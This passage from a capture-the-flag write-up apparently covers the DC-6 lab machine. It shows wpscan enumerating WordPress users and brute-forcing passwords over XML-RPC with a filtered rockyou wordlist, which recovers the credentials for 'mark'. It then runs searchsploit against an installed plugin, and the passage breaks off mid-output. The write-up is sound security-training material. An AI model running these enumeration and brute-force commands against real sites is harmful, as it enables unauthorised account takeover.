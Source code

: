 [+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Oct 10 07:39:00 2020
[+] Requests Done: 60
[+] Cached Requests: 6
[+] Data Sent: 12.749 KB
[+] Data Received: 640.991 KB
[+] Memory used: 152.438 MB
[+] Elapsed time: 00:00:09
```
## Brute force the Wordpress accounts
We had a hint from the challenge description regarding the password file to use:

```kali@kali:/data/DC_6$ grep k01 /usr/share/wordlists/rockyou.txt > files/passwords.txt```
Now, let’s brute force the accounts:
```
kali@kali:/data/DC_6/files$ wpscan --url http://wordy/ -e u -P passwords.txt 

[REDACTED]

[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - mark / helpdesk01                                                                                        
Trying jens / !lak019b Time: 00:02:44 <===============================        > (12547 / 15215) 82.46%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01

[REDACTED]
```
## Connect as mark
Now, let’s connect as “mark” in Wordpress (http://wordy/wp-admin/). Mark is not an admin, which means that we won’t be able to modify the templates, but there is an “Activity Monitor” plugin installed. Let’s check if there are any exploits:
```
kali@kali:/data/DC_6$ searchsploit activity monitor
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Activity Monitor 2002 2.6 - Remote Denial of Service                               | windows/dos/22690.c